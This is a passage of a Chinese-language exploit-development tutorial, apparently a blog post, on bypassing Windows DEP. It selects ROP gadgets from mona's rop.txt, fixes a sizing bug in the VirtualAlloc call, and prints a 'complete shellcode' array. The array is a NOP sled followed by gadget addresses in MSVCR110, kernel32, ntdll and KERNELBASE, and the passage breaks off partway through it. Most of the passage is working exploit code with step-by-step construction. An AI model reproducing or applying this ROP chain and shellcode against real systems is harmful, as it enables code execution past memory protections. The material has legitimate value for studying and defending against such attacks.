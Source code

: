 继续测试， 将长度设置为1，函数返回当前内存页的起始地址：0x0012F000，并且shellcode成功执行

说明传入的函数长度对分配内存没有影响，但是加上申请内存的起始地址后必须小于当前内存页的长度

也就是说，在溢出过程中，通过VirtualAllocEx()函数申请的内存大小为固定值

现在，我们通过手动修改栈地址实现了DEP的绕过，下面将寻找合适的替换指令，构建自己的ROP链，解决mona自动生成产生的BUG

PUSHAD表示将所有寄存器的值入栈，入栈顺序为EAX,ECX,EDX,EBX,ESP,EBP,ESI,EDI

跟踪到PUSHAD，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-17/2-5.png)

EBX存储内存的长度，需要将EBX修改为小于201的值

## 0x04 查找替代指令，构造ROP链
---

在rop.txt中寻找合适的替代指令

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-3-17/2-6.png)

如上图，搜索关键词EBX,找到一条合适的替代指令：

`0x771c80a2 :  # XOR EAX,EAX # POP EBX # RETN    ** [kernel32.dll] **   |   {PAGE_EXECUTE_READ}`

`XOR EAX,EAX` 会将寄存器EAX的值清零
`POP EBX` 会从栈顶取值并赋值给EBX

选择合适的位置，并为EBX赋值,需要注意：

该指令将寄存器EAX的值清零，所以需要找到与EAX寄存器值无关的位置

POP EBX会读取下一条指令的内容，并赋值给EBX，所以后面接上EBX的值就好，例如0x00000028, // Set EBX=0x00000028(40)

找到一个合适的位置，放在` 0x693a7031,  // POP EAX // RETN [MSVCR110.dll]` 前面

完整shellcode如下：

```
unsigned int shellcode[]=
{     
      0x90909090,0x90909090,0x90909090,0x90909090,
      0x90909090,0x90909090,0x90909090,0x90909090,
    0x90909090,0x90909090,0x90909090,0x90909090,
    0x90909090,
      0x693a2e92,  // POP ECX // RETN [MSVCR110.dll] 
      0x693bd19c,  // ptr to &VirtualAlloc() [IAT MSVCR110.dll]
      0x69353486,  // MOV EAX,DWORD PTR DS:[ECX] // RETN [MSVCR110.dll] 
      0x779f9dca,  // XCHG EAX,ESI // RETN [ntdll.dll] 
      0x69370742,  // POP EBP // RETN [MSVCR110.dll] 
      0x75dac58d,  // & call esp [KERNELBASE.dll]
      0x6932ea52,  // POP EAX // RETN [MSVCR110.dll] 
      0xffffffff,  // Value to negate, will become 0x00000001
      0x69353746,  // NEG EAX // RETN [MSVCR110.dll] 
      0x75da655d,  // XCHG EAX,EBX // ADD BH,CH // DEC ECX // RETN 0x10 [KERNELBASE.dll] 
      0x77216829,  // POP EAX // RETN [kernel32.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0x41414141,  // Filler (RETN offset compensation)
      0xa2800fc0,  // put delta into eax (-> put 0x00001000 into edx)
      0x7721502a,  // ADD EAX,5D800040 // RETN 0x04 [kernel32.dll] 
      0x771abd3a,  // XCHG EAX,EDX // RETN [kernel32.dll] 
      0x41414141,  // Filler (RETN offset compensation)
      0x69329bb1,  // POP EAX // RETN [MSVCR110.dll] 
      0xffffffc0,  // Value to negate, will become 0x00000040
      0x69354484,  // NEG EAX // RETN [MSVCR110.dll] 
      0x771d0946,  // XCHG EAX,ECX // RETN [kernel32.dll] 
```